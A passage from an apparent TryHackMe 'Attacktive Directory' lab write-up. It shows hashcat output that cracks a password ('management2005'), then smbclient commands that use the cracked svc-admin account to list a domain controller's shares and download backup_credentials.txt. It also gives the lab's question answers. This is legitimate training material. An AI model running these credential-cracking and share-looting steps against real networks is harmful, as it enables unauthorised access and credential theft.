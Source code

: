 ```
Progress.........: 5842944/14344385 (40.73%)
Rejected.........: 0/5842944 (0.00%)
Restore.Point....: 5836800/14344385 (40.69%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: manaiagal -> mamglo

Started: Sat Oct 17 11:19:50 2020
Stopped: Sat Oct 17 11:20:44 2020
```

`management2005`

## Task 6 Enumerate the DC Pt 3

**Enumeration:**

With a user's account credentials we now have significantly more access within the domain. We can now attempt to enumerate any shares that the domain controller may be giving out.

1. Using utility can we map remote SMB shares?

```
bibo318@parrot:~/CTFs/tryhackme/Attacktive Directory$ smbclient -U spookysec.local/svc-admin -L //10.10.225.245
Enter SPOOKYSEC.LOCAL\svc-admin's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        SYSVOL          Disk      Logon server share
SMB1 disabled -- no workgroup available
```

`smbclient`

2. Which option will list shares?

`-L`

3. How many remote shares is the server listing?

`6`

4. There is one particular share that we have access to that contains a text file. Which share is it?

`backup`

5. What is the content of the file?

```
bibo318@parrot:~/CTFs/tryhackme/Attacktive Directory$ smbclient -U spookysec.local/svc-admin //10.10.225.245/backup
Enter SPOOKYSEC.LOCAL\svc-admin's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 21:08:39 2020
  ..                                  D        0  Sat Apr  4 21:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 21:08:53 2020

                8247551 blocks of size 4096. 3465084 blocks available
smb: \> get backup_credentials.txt
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \> exit
```
